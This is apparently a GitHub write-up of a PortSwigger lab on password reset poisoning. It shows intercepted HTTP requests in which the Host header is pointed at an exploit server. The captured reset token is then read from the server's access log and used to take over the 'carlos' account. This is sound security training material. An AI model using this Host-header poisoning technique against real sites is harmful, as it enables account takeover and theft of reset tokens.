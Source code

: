 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/442fb3cc-44f3-4c88-90cb-c59535686069)

## Overview :

**How to construct a password reset poisoning attack :**

If the URL that is sent to the user is dynamically generated based on controllable input, such as the Host header, it may be possible to construct a password reset poisoning attack as follows:

   1. The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control. For this example, we'll use `evil-user.net`.

   2.  The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server:
    `https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j`
   3.  If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server.
   4.  The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter. They will then be able to reset the user's password to whatever they like and subsequently log in to their account.

## Solution :

We have a option to reset our password using the **Forgot password** functionality.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/371b8929-1cca-47c1-964b-ef180ed7df1b)

Now enter the username whose password which we want to reset . In this case it is *wiener*.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/16a8d583-d139-4ea3-898e-ba9260ab4169)

Intercept the request & send it to repeater.

```http
POST /forgot-password HTTP/2
Host: 0a6c007204c10dcb805e944e00870001.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: https://0a6c007204c10dcb805e944e00870001.web-security-academy.net
Connection: keep-alive
Referer: https://0a6c007204c10dcb805e944e00870001.web-security-academy.net/forgot-password
Cookie: session=wPueOrVb4Kc6J5JGFRrzh2hCGreNgeja; _lab=46%7cMCwCFGH6edwtkZ8B%2fHdkZJIYYpguNWKgAhQEq3cg0iAy2%2bjza7hreiZYabLOM8JPVAJo29FiRWS1vXDIipjXExO3G%2fhwXwkX%2bDn64BJG3rtcWI2UkWmxoAUnunm5irS74YoTzo8RHXc8iDPNOg4HgkVTCbJ9uQAYpJygBjtv0ZOxBFs%3d
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

csrf=MIGoPg4wUnVE1BC76Owk7LhvbQBBFSOj&username=wiener
```
When the request is forwarded, the user wiener receives a password reset link in his email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2c6207d1-690a-43a6-9c32-a2c5e2694c1a)

### Password reset poisoning :

In the forgot-password request,

- Change **user=carlos**
- Change the **Host** header to our exploit server address - `exploit-0a2e00fd04300dd080e5935d012800d9.exploit-server.net/exploit`

The request now looks like this,

```http
POST /forgot-password HTTP/2
Host: exploit-0a2e00fd04300dd080e5935d012800d9.exploit-server.net/exploit
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@p6w5nk6wglwmgr3mkv6xti8gh7nyomd.oastify.com
.
.
.

csrf=MIGoPg4wUnVE1BC76Owk7LhvbQBBFSOj&username=carlos
```

Send the request . Now **carlos would have received a password reset mail which when clicked will send the reset token to our exploit server. We can access it via the access logs.**

```html
10.0.4.13       2023-10-16 07:07:41 +0000 "GET /exploit/forgot-password?temp-forgot-password-token=c3fafxu1agozldg7r512g3p9iq7nbpmi HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36"
```
From the access log, we got the reset token of carlos - `c3fafxu1agozldg7r512g3p9iq7nbpmi`

Now we can reset carlos's password using the link 

```html
https://0a6c007204c10dcb805e944e00870001.web-security-academy.net/forgot-password?temp-forgot-password-token=c3fafxu1agozldg7r512g3p9iq7nbpmi
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a29f0002-44b6-4c75-b368-fc524b158489)

Now we can login as carlos with the new password which we set.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d771582-6e5c-4bdb-9b1d-c8fa9e64f1a7)

The lab is now solved.
